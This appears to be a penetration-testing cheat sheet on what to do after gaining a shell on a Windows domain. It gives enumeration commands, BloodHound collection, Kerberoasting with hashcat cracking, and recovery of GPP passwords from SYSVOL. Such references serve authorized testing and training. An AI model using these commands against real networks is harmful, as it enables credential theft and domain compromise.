 # Basics on what to do upon getting shell/rce


**Note:** Try as much as possible to [Live off the land](https://lolbas-project.github.io/)
___

## Just basic stuff

```batch
whoami /all
hostname
ipconfig /all
systeminfo
gpresult /R 
dir
tree /f /a
tasklist /V
net user
net user /domain
net user <username>
net user <username> /domain
net localgroup
net localgroup administrators
net groups /domain
net group "<group>" /domain
net group "domain admins" /domain
klist
```
___
## NLTest
   * Source: [ired.team](https://www.ired.team/offensive-security-experiments/offensive-security-cheetsheets)
       
```batch
nltest /dclist:<domain>
nltest /dsgetdc:<domain>
nltest /domain_trusts /all_trusts
```
___
## Powershell Enumeration
   * Source: [ired.team](https://www.ired.team/offensive-security-experiments/offensive-security-cheetsheets)

```powershell        
[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()).GetAllTrustRelationships()
[System.DirectoryServices.ActiveDirectory.Forest]::GetCurrentForest()
([System.DirectoryServices.ActiveDirectory.Forest]::GetForest((New-Object System.DirectoryServices.ActiveDirectory.DirectoryContext('Forest', '<domain>')))).GetAllTrustRelationships()
```
___ 

## [Dumping credentials](/#dumping-credentials)
___
## Bloodhound (Sharphound) 

* Source: [hausec](https://hausec.com/2019/03/12/penetration-testing-active-directory-part-ii/)

1. On local machine  (~Kali)


```batch
git clone https://github.com/fox-it/BloodHound.py.git #Bloodhound.py does not have all the features compared to the original Sharphound ingestors
cd BloodHound.py/ && pip install .
bloodhound-python -d <domain> -u <username> -p <password> -gc <domain_controller> -c all

sudo apt install neo4j bloodhound
# Access neo4j and change the neo4j/neo4j default credentials.
# While neo4j is still running, run bloodhound
bloodhound
```

1. Sharphound Officialy supported ingestors
   * Running the official/supported Sharphound ingestors collects more information
       * although Bloodhound.py is good for most cases
   * Source: 
       * [Github](https://github.com/BloodHoundAD/BloodHound/tree/master/Ingestors)
       * [ReadTheDocs](https://bloodhound.readthedocs.io/en/latest/data-collection/sharphound.html)
```powershell
# If logged in on a local user account but have domain user credentials, then on the command-line
C:\> runas /netonly /user:<DOMAIN>\<username> powershell.exe

# then on the spawned powershell
Import-Module .\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All -CompressData -RemoveCSV -NoSaveCache
```

___
## General Attack methods
* Sources:
    * [Red Siege](https://www.redsiege.com/wp-content/uploads/2020/04/20200430-kerb101.pdf)
    * [Orange Cyberdefense](https://raw.githubusercontent.com/Orange-Cyberdefense/arsenal/master/mindmap/pentest_ad.png)
* Methods
     * Golden Ticket
         * Requires full domain compromise.
         * Used for persistenceand pivoting
     * Kerberoasting
         * Requires access as any user. 
         * Use to escalateand pivot
     * Silver Ticket
         * Requires service hash.
         * Use for persistenceand escalation
     * Pass-the-Ticket
         * Requires access as user.
         * Use to pivot
     * Over-Pass-the-Hash
         * Requires access as user.
         * Use to pivot
___

## Kerberoasting
* Source: 
    * [hausec](https://hausec.com/2019/03/12/penetration-testing-active-directory-part-ii/)
    * [Tarlogic Security](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a)
1. From Linux
    * Beware of time difference of the attacking machine (Kali) and the targeted Domain Controller
    ```bash
    GetUserSPNs.py -debug -request -outputfile TGS_file.txt -dc-ip <DC_IP_Address> <FQDN>/<username>
    ```

1. From Windows
    * Refer to [m0chan's blog](https://m0chan.github.io/2019/07/31/How-To-Attack-Kerberos-101.html)
    ```batch
    hashcat64.exe -a 3 -m 13100 SPN.hash /wordlists/rockyou.txt
    ```

___

## Gathering Windows GPP passwords 

Source: [Pure Security](https://pure.security/dumping-windows-credentials/)

1. On target machine logged-on with a regular domain account
    ```batch
    findstr /S cpassword \\<domain_controller>\sysvol\*.xml
    ```
1. On local machine (~Kali)
    ```bash
    gpp-decrypt <cpassword_value>
    ```

___

## ADFind
* Source:
    * [redcanary](https://redcanary.com/threat-detection-report/techniques/domain-trust-discovery/)
    
```batch
adfind.exe -f objectclass=trusteddomain
adfind.exe -sc trustdmp
```
    
